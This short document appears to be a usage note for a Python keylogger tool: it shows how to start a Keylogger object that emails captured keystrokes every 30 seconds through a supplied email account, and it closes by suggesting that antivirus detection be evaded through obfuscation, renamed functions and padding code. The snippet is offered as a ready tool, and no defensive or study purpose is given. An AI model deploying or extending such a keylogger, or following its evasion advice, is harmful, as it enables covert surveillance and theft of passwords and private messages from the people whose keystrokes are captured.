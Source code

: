 # Send a keylogs report by email
Send a report of keylogs by email:

```python
keylogger = Keylogger(30, 'email', 'password')
keylogger.start()
```
The first parameter indicates every how many seconds the report will be sent to your email, and then provide an email and password for an account that will send the key logs to itself.
Tool might be detected by antiviruses, this can be circumvented by obfuscating the code, changing the name of the functions, adding padding functions, etc. Be creative!